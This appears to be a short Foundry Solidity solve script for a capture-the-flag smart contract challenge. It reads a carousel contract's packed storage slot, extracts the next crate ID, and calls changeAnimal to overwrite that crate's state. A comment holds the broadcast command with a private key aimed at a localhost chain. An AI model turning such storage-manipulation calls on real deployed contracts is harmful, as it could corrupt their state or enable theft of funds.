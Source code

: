 ```solidity
    function setUp() public {}

    // forge script -vv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();

        ITarget t = ITarget(target);

        uint256 curr = t.currentCrateId();
        uint256 slot = t.carousel(curr);
        uint256 nextCrateId = (slot & NEXT_ID_MASK) >> 160;

        console.log("currentCrateId :", curr);
        console.log("nextCrateId    :", nextCrateId);

        t.changeAnimal("ZZZ", nextCrateId);

        slot = t.carousel(nextCrateId);
        console.log("Slot 1 state after change:", slot);

        vm.stopBroadcast();
    }
}
```
